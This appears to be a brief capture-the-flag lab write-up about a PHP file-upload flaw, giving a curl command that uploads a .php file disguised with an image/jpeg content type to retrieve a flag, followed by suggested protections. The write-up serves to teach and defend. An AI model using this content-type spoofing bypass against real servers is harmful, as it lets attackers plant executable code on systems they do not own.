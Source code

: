 # Vulnerability

Go to add image at the bottom of the main page
`http://192.168.56.101/?page=upload`

With curl:
`touch test.php && curl -s -X POST -F "uploaded=@./test.php;type=image/jpeg" -F "Upload=Upload" "http://<IP>/index.php?page=upload" | grep flag`

# Protection

- blacklisting file extensions
- use function like getimagesize() in php to check if the image content is valid

# Source

https://www.geeksforgeeks.org/php-getimagesize-function/
